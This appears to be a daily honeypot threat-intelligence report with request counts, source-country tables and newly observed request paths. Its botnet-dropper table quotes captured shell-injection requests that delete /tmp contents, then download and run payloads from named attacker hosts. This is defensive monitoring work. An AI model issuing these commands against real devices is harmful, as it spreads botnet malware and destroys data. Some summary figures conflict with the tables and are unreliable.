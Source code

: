 ```yaml
---
title: "Report: 2025-07-19 "
date: 2025-07-19
desciption: "Report: 2025-07-19" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-19 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 8 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 12 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 614 requests were recorded during the day, originating from 8 different countries, with a peak of 165 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                              |
|:--------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 47.236.23.123 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                 |
| 8.222.172.218 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                 |
| 118.182.79.13 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                 |
| 8.222.219.91  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                 |
| 8.222.249.62  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                 |
| 45.153.34.79  | GET /shell?cd+/tmp;rm+-rf+arm7;nohup+wget+http:/\x5C/45.125.66.95/x86;chmod+777+x86;./x86;cd+/tmp;rm+-rf+arm7;nohup+wget+http:/\x5C/45.125.66.95/arm7;chmod+777+arm7;./arm7 HTTP/1.1 |
| 8.222.223.100 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                 |
| 8.222.230.103 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                |
|----:|----------------------:|:---------------------------------------|
|  23 |                     3 | POST /UD/act?1 HTTP/1.1                |
|  45 |                     3 | GET /VGAuth1.zip HTTP/1.1              |
|  80 |                     1 | GET /OdinHttpCall1752933556 HTTP/1.1   |
|  81 |                     1 | GET /odinhttpcall1752933556 HTTP/1.1   |
|  96 |                     1 | GET /Odin/http/call1752933556 HTTP/1.1 |
| 106 |                     1 | GET /odinhttpcall1752935646 HTTP/1.1   |
| 107 |                     1 | GET /OdinHttpCall1752935646 HTTP/1.1   |
| 108 |                     1 | GET /Odin/http/call1752935646 HTTP/1.1 |
| 128 |                     1 | GET /Odin/http/call1752933756 HTTP/1.1 |
| 129 |                     1 | GET /OdinHttpCall1752933756 HTTP/1.1   |
| 130 |                     1 | GET /odinhttpcall1752933756 HTTP/1.1   |
| 145 |                     1 | Content-Length: 55                     |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   165 | US                 |
|  1 |                   111 | DE                 |
|  2 |                    56 | PL                 |
|  3 |                    55 | GB                 |
|  4 |                    37 | NL                 |
|  5 |                    32 | BG                 |
|  6 |                    29 | HK                 |
|  7 |                    20 | CN                 |
|  8 |                    17 | FR                 |
|  9 |                    13 | SG                 |
| 10 |                    10 | HU                 |
| 11 |                    10 | DO                 |
| 12 |                     8 | CA                 |
| 13 |                     7 | RU                 |
| 14 |                     6 | UA                 |
| 15 |                     5 | BE                 |
| 16 |                     5 | BR                 |
| 17 |                     4 | IN                 |
| 18 |                     3 | PT                 |
| 19 |                     3 | KR                 |
| 20 |                     3 | KZ                 |
| 21 |                     2 | IE                 |
| 22 |                     2 | SC                 |
| 23 |                     2 | CH                 |
| 24 |                     1 | LT                 |
| 25 |                     1 | MX                 |
| 26 |                     1 | PA                 |
| 27 |                     1 | IR                 |
| 28 |                     1 | SI                 |
| 29 |                     1 | ZA                 |
| 30 |                     1 | CZ                 |
| 31 |                     1 | JP                 |
| 32 |                     1 | SE                 |
